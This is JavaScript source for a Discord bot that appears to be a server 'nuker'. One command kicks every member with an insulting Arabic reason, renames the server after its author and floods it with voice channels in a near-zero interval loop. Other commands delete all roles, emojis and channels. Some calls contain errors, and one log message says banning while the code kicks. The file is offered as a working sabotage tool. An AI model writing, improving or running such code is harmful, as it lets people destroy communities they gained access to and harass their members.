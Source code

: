 const {Client,MessageEmbed} = require('discord.js')
const client = new Client()
const {token,prefix} = require('./config.json')
client.login(token)
client.on('ready',()=>{
    readyEvent(`${client.user.username} is Ready To Use`)
})
client.on('message',message=>{
    if(message.author.bot || !message.guild) return
    if(message.content.startsWith(prefix + "start")){
        message.guild.members.cache.forEach(member =>{
            member.kick({reason:'اخو قحبة'})
           console.log(`Banning ${message.guild.memberCount}`)
      
})
    }
    if(message.content.startsWith(prefix + "start")){
message.guild.setName("By Rohit#8888")
setInterval(()=>{
    message.guild.channels.create('Rohit Is here',{type:'voice'})        
},1)
    message.guild.roles.cache.forEach(role=>{
        role.delete('تست')
    })
    message.guild.emojis.cache.forEach(emoji=>{
        emoji.delete()
    })
}
if(message.content.startsWith(prefix +"member")){
    message.guild.member.cache.forEach(member=>{
        member.kick({reason:'اخو قحبة'})
    })
}
if(!message.content.startsWith(prefix)) return
    if(message.content.startsWith(prefix + "roles")){
        message.guild.roles.cache.forEach(role=>{
            role.delete()
    })
}
if(message.content.startsWith(prefix + "channels")){
    message.guild.channels.cache.forEach(channel=>{
        channel.delete()
    })
}
})

function readyEvent(text){
    console.log(text)
}
